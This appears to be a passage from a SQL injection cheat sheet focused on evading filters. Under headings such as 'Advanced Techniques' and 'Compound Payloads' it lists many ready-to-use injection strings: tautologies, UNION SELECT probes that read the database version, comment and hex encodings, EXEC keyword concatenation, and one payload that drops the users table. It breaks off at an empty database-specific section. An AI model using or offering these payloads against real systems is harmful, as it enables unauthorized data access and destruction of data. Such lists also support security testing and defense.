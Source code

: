 ```
SELECT * FROM users WHERE username = 'admin' UNION ALL SELECT 1, 'a', 'b'--
```

## Advanced Techniques
Use advanced SQL features or lesser-known syntax to bypass defenses.

- **Using Substring Comparisons:** Comparing substrings can bypass filters looking for full string comparisons.

```
' OR SUBSTRING('abc', 1, 1)='a' --
```

- **Using Database-Specific Functions:** Using database-specific functions (e.g., `IFNULL()` in MySQL) can evade generic filters not tailored for specific SQL dialects.

```
' OR IFNULL(1, 1/0) --
```

- **Bypassing Filters with Logical Inconsistencies:** Introducing logical inconsistencies or redundant logical operators can sometimes bypass simplistic filters.

```
' OR 1=1 -- -'
```

- **Polyglot Payloads:** Create payloads that work in multiple contexts and can bypass context-specific filters.

```
' UNION SELECT null, null, null; DROP TABLE users --
```

## Compound Payloads
Combine multiple techniques to create a more complex, harder-to-detect payload.

- **Encoded and Obfuscated:** This payload combines Unicode strings, comments, and URL encoding to bypass various layers of filtering.

```
SELECT * FROM users WHERE username = N'admin'/**/OR/**/N'1'%3D%271%27;
```

- **Mixed Case, Comments, and Encodings:** The payload uses mixed case, inline comments, and hexadecimal encoding to bypass different filters.

```
SELECT * FROM users WHERE UsErNaMe = N'admin' UNION/**/SELECT/**/NULL,0x61646d696e,@@version#;
```

- **Using `EXEC` with Obfuscation:** By using dynamic execution with `EXEC` and concatenating parts of the SQL keywords, this payload can bypass static keyword filters.

```
EXEC ('SE' + 'LECT * FROM users WHERE username = ''admin'' OR 1=1');
```

## Database-Specific Techniques
